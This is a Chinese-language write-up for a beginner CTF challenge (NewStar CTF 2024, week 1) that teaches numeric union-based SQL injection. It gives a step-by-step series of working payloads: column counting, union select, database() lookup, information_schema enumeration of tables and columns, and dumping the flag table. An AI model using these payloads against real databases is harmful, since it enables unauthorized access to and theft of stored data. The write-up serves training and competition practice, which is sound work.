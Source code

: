 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


<script setup>
import Container from '@/components/docs/Container.vue'
</script>

# 谢谢皮蛋

<Container type='tip'>

本题考查的是 SQL 注入的相关知识，如果你从未了解和接触过数据库和 SQL 语句，你可能需要花费一定的时间快速了解并尝试。
</Container>

题目考查数字型注入、联合注入

判断列数和回显位，其实看页面上的格式也基本可以判断

```sql
1 order by 2#
-1 union select 1,2#
```

查看当前数据库

```sql
-1 union select 1,database()#
```

![界面 1](/assets/images/wp/2024/week1/xiexiepidan_1.png)

查看当前数据库所有表名

```sql
-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#
```

![界面 2](/assets/images/wp/2024/week1/xiexiepidan_2.png)

查看 `Fl4g` 表所有列名

```sql
-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='Fl4g' and table_schema=database()#
```

![界面 3](/assets/images/wp/2024/week1/xiexiepidan_3.png)

查看值得到 flag

```sql
-1 union select group_concat(des),group_concat(value) from Fl4g#
```
